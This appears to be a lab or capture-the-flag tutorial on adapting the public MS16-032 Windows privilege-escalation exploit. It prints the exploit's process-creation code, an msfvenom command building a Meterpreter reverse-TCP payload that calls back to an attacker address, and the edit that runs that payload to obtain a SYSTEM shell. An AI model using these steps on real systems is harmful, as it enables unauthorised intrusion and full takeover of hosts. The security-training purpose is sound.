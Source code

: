 # how to modify exploits - overview

references: great source > https://zero-day.io/modifyexploits/ 

# Step 1: Understand what the exploit does

The first step is understanding what the exploit does. That doesn't mean you need to understand the actual inner workings and mechanics of the exploit - although would be nice - but you need to have at least a high-level understanding what the exploit does. In many cases, an exploit tries to executes arbitrary code spawn a cmd window, creates a new administrator account or connects back to your listener, spawning you a remote shell.

If we analyze the MS16-032 (https://www.exploit-db.com/exploits/39719) exploit closely, we clearly see it's written in Powershell.

At the end of the exploit, we see the following code:

      # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "",
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)

This part tells us, after succesfully exploiting the MS16-032 vulnerability, the exploit executes C:\Windows\System32.cmd.exe. This would work great if we have physical access to the victim host, but as we run this exploit remotely via meterpreter, spawning a local extra instance of cmd.exe gives us no root privileges via meterpreter. We found our issue!

Now we need to modify the exploit to allow us to elevate our privileges. The easiest way to do this is by replacing C:\Windows\System32\cmd.exe with a a malicious payload .exe you created yourself with msfvenom, allowing to open a new meterpeter system shell.

# Step 2: Create your own malicious payload

To start building your own malicious payload, open a new terminal and execute the following command:

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.95 LPORT=5555 -f exe > zeroday.exe

Let's breakdown the above command:

    msvenom (stand-alone metasploit payload generator)
    -p windows/meterpreter/reverse_tcp (specifies the type of payload you want to use in your malicious executable)
    LHOST=10.10.15.95 (your IP adress you want the victim machine to connect back to)
    LPORT=5555 (your local port you want the victim machine to connect back to)
    -f exe > zeroday.exe (specifies the type of excutable you want to generate and the output file)

Next, we start a metasploit listener with the same payload, LHOST and LPORT as you created your payload with. When our payload is executed on the victim host, a meterpreter shell with connect to our listener.


# Step 3: Modify the exploit and execute

Now we have created our own malicious zeroday.exe instead of cmd.exe, all we need to do is modify the exploit so it executes our payload instead of cmd.exe.

First, we returned to our meterpreter shell and uploaded our zeroday.exe to *C:\Users\kostas\Desktop*.

Next, we replaced C:\Windows\System32\cmd.exe with C:\Users\kostas\Desktop\zeroday.exe in the exploit and saved as a .ps1 file. We also uploaded the now modified ps1 file to *C:\Users\kostas\Desktop* on our victim host.

	# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\kostas\Desktop\zeroday.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)

To execute our new modified exploit, run following commands:

./zeroday.ps1
Import-Module .ps1
Invoke-MS16-032 

In the screenshot you will notice that I ran Invoke-zeroday2 instead of Invoke-MS16-032. That's because I changed the name of the function for fun as well. No need to worry about that.

If we return to our meterpreter listener, we should have a SYSTEM shell..
